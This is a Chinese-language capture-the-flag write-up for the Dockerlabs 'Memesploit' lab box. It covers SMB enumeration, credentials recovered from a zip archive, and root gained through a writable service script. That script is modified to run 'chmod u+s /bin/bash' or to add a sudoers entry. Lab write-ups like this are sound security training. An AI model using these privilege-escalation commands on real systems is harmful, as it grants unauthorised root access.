 ```yaml
---
title: "Dockerlabs-Memesploit"
date: 2025-02-21
categories: 
  - "dockerlabs"
tags: 
  - "dockerlabs"
  - "linux"
---
```


## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Medium |

## Nmap

```
[root@kali] /home/kali/Memesploit  
❯ nmap 172.17.0.2 -sV 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-21 19:06 CST
Nmap scan report for 172.17.0.2
Host is up (0.0000080s latency).
Not shown: 996 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.58 ((Ubuntu))
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.42 seconds
```

## SMB

```
[root@kali] /home/kali/Memesploit  
❯ smbclient -L //172.17.0.2/                                                                                                                             ⏎
Password for [WORKGROUP\root]:

        Sharename       Type      Comment
        --------- ---- -------
        print$          Disk      Printer Drivers
        share_memehydra Disk      
        IPC$            IPC       IPC Service (c9584cd8853e server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.
smbXcli_negprot_smb1_done: No compatible protocol selected by server.
Protocol negotiation to server 172.17.0.2 (for a protocol between LANMAN1 and NT1) failed: NT_STATUS_INVALID_NETWORK_RESPONSE
Unable to connect with SMB1 -- no workgroup available
```

存在一个**share\_memehydra**的目录，但是必须要密码才能登录。

进入网页可以看到有部分单词被黑化了，尝试用它作为密码

![](./images/image-50.png)

```
[root@kali] /home/kali/Memesploit  
❯ enum4linux -a 172.17.0.2 
```

![](./images/image-51.png)

尝试使用**memehydra**作为用户名登录成功

![](./images/image-52.png)

解压的时候需要密码，刚好网页里的另一个隐藏单词就是密码。

```
[root@kali] /home/kali/Memesploit  
❯ unzip secret.zip -d secret
Archive:  secret.zip
[secret.zip] secret.txt password: 
  inflating: secret/secret.txt       

[root@kali] /home/kali/Memesploit  
❯ cd secret 

[root@kali] /home/kali/Memesploit/secret  
❯ ls
secret.txt

[root@kali] /home/kali/Memesploit/secret  
❯ cat secret.txt                                             
memesploit:metasploitelmejor
```

**ssh**登录拿到**user.txt**

![](./images/image-53.png)

## ROOT

查看特殊权限命令，发现一个**service**

```
memesploit@c9584cd8853e:~$ sudo -l
Matching Defaults entries for memesploit on c9584cd8853e:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User memesploit may run the following commands on c9584cd8853e:
    (ALL : ALL) NOPASSWD: /usr/sbin/service login_monitor restart
```

找到**login\_monitor**的位置

![](./images/image-54.png)

将其中一个脚本进行重写，这样重启的时候会被执行

这里有一个坑，仔细看脚本的内容，需要修改的是**actionban.sh**

```
memesploit@577e1f3f89de:/etc/login_monitor$ cat actionban.sh 
#!/bin/bash

# Ruta del archivo que simula el registro de bloqueos
BLOCK_LOG="/tmp/block_log.txt"

# Función para generar una IP aleatoria
generate_random_ip() {
    echo "$((RANDOM % 255 + 1)).$((RANDOM % 255 + 1)).$((RANDOM % 255 + 1)).$((RANDOM % 255 + 1))"
}

# Generar una IP aleatoria
IP_TO_BLOCK=$(generate_random_ip)

# Mensaje de simulación
MESSAGE="Simulación de bloqueo de IP: $IP_TO_BLOCK"

# Mostrar el mensaje en la terminal
echo "$MESSAGE"

# Registrar el intento de bloqueo en el archivo
echo "$(date): $MESSAGE" >> "$BLOCK_LOG"

echo "El registro ha sido creado en $BLOCK_LOG con la IP $IP_TO_BLOCK"
```

因为这里的**/tmp/block\_log.txt**是真实存在的，也就是说这个脚本是被执行的

![](./images/image-55.png)

```
memesploit@577e1f3f89de:/etc/login_monitor$ cp actionban.sh actionban2.sh 
memesploit@577e1f3f89de:/etc/login_monitor$ rm actionban.sh 
rm: remove write-protected regular file 'actionban.sh'? y   
memesploit@577e1f3f89de:/etc/login_monitor$ echo "chmod u+s /bin/bash" >> actionban2.sh 
memesploit@577e1f3f89de:/etc/login_monitor$ mv actionban2.sh actionban.sh 
memesploit@577e1f3f89de:/etc/login_monitor$ sudo  /usr/sbin/service login_monitor restart
```

![](./images/image-56.png)

**chmod u+s /bin/bash**的功能：当用户执行 `/bin/bash` 时，它会以文件拥有者的身份（通常是 **root** 用户）执行，而不是以当前用户的身份执行。这意味着，如果普通用户执行 `/bin/bash`，会获得 **root** 权限，直到退出 `bash`。

另一个解法是将**memesploit**写入超级用户组，然后使用**sudo -i**提升权限。可以参考[HTB-Sea - HYH](https://www.hyhforever.top/hackthebox-sea/)

```
echo 'echo "memesploit ALL=(ALL:ALL) ALL" >> /etc/sudoers.d/memesploit' >> actionban.sh 
```

![](./images/image-57.png)

## Summary

`User`：**SMB**文件泄露，通过网页中的信息进行登录下载，然后解密压缩包。

`Root`：查找到**/usr/sbin/service login\_monitor restart**相关的脚本，这里一定要找对，不然没有效果。可以修改**/bin/bash**的执行方式，也可以将**memesploit**写入超级用户组，当然还有其他解法，这里就不赘述了。
